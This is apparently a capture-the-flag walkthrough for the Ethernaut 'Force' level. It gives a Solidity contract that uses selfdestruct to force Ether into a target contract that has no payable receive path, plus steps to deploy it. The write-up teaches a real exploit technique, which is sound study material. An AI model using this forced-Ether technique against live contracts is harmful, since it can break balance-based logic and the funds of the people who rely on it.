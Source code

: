 ## Level 7: Force <a name="level-7-force"></a>

We have the following contract in the Force level:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```

and out objective is to increase the balance.

In a previous level we learned about fallback functions. If we call a contract where the function signature doesn't match any of the functions in the contract, the fallback function is called. 

In this example there is no payable `fallback()` and no `receive()` function defined. So, there is no way to send Ether to the contract by using an EOA.

Instead we are going to make use of the `selfdestruct()` function. The `selfdestruct()` function is used to destroy the contract and send its funds to a designated address.

Here is the code to do that:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Payer {
    uint public balance = 0;

    function destruct(address payable _beneficiary) external payable {
        selfdestruct(_beneficiary);
    }

    receive() external payable {
        balance += msg.value;
    }
}
```

Deploy the contract, send a small amount of Ether to the contract and call the `destruct()` function with the address of the Force contract. The balance of the Force contract should now be increased by the amount of Ether you sent to the Payer contract.

### Learning:
The `selfdestruct()` function is used to destroy the contract and send its funds to a designated address. It is a dangerous function and should be used with caution.
